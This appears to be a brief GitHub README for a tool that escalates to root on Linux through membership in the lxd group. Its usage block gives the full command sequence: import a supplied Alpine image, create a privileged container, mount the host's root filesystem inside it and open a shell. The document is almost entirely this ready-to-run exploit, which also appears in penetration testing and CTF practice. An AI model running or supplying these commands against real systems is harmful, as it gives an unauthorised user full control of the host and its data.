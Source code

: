 # Privesc_alpine
This alpine for linux privesc. Its works when the user is part of lxd group.

# Usage:
```
unzip alpine.zip
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```
![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/6d54849c-d9da-4897-a768-41e2507f73eb)

